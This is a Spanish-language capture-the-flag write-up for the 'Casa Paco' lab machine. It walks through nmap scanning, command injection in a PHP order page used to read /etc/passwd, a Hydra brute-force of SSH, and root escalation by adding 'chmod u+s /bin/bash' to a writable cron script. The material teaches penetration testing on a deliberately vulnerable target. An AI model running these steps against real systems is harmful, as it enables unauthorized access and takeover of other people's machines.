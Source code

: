 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackerLabs
  - Easy
  - Linux
  - BurpSuite
  - Hydra
  - SSH
  - PrivilegeEscalation
  - CRON
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
		- [[#HTTP#Burp Suite|Burp Suite]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Tarea CRON|Tarea CRON]]

---
# Resolviendo la máquina Casa Paco

>En esta publicación, comparto cómo resolví la máquina **Casa Paco** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/18).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 192.168.1.138`

![[Pasted image 20250721192326.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.138 -oG allPorts`

![[Pasted image 20250721192500.png]]

`nmap -p22,80 -sCV 192.168.1.138 -oN targeted`

![[Pasted image 20250721192515.png]]
### HTTP

`http://192.168.1.138`

![[Pasted image 20250721192606.png]]

`echo "192.168.1.138 casapaco.thl" >> /etc/hosts`

![[Pasted image 20250721192728.png]]
#### Fuzzing Web

Se realiza *fuzzing web*, pero no se obtiene ningún resultado.
#### Burp Suite

Se procede a mirar en la web, y se encuentra el siguiente directorio: `http://casapaco.thl/llevar.php`.

![[Pasted image 20250721195041.png]]

Se procede a realizar un análisis con *Burp Suite*.

![[Pasted image 20250721195141.png]]

Se observa que al realizar un pedido de prueba, pone "Salida de comando".

Se prueba si podemos listar contenido.

![[Pasted image 20250721195257.png]]

Al intentar listar el el archivo *llevar.php*, no se consigue nada.

![[Pasted image 20250721195418.png]]

Anteriormente, se observa que existe un archivo llamado *llevar1.php*.

Se procede a realizar la misma prueba que se realizó anteriormente, pero con el archivo mencionado.

![[Pasted image 20250721195558.png]]

Se observa que funciona, además de ver el bloqueo de comandos que tiene el archivo *llevar.php*.

Se procede a listar el archivo *llevar1.php* y se observa que no tiene el bloqueo de comandos.

![[Pasted image 20250721195754.png]]

Se procede a listar el archivo: `/etc/passwd`, para averiguar usuarios en el sistema.

![[Pasted image 20250721195910.png]]

Se listan los usuarios y se encuentra *pacogerente*.

---
## Explotación
### Hydra

Se procede a realizar *fuerza bruta* en el servicio **SSH**.

`hydra -l pacogerente -P /usr/share/wordlists/rockyou.txt 192.168.1.138 ssh -t 64`

![[Pasted image 20250721202839.png]]
### SSH

`ssh pacogerente@192.168.1.138`

![[Pasted image 20250721210344.png]]
### Escalada de Privilegios
#### Tarea CRON
Se realiza una búsqueda y se encuentra, dos archivos: `fabada.sh` y `log.txt`.

`ls`

![[Pasted image 20250721210515.png]]

Se visualizan los dos archivos.

`cat log.txt`

![[Pasted image 20250721210621.png]]

`cat fabada.sh`

![[Pasted image 20250721210648.png]]

Se verifica si el archivo (`fabada.sh`) puede ser editado.

`ls -la`

![[Pasted image 20250721210953.png]]

Se edita el archivo `fabada.sh`, añadiendo la línea de comando `chmod u+s /bin/bash`.

`nano fabada.sh`

`cat fabada.sh`

![[Pasted image 20250721211100.png]]

Se espera a que pase la tarea **CRON**.

`cat log.txt`

![[Pasted image 20250721211144.png]]

`bash -p`

![[Pasted image 20250721211207.png]]

---
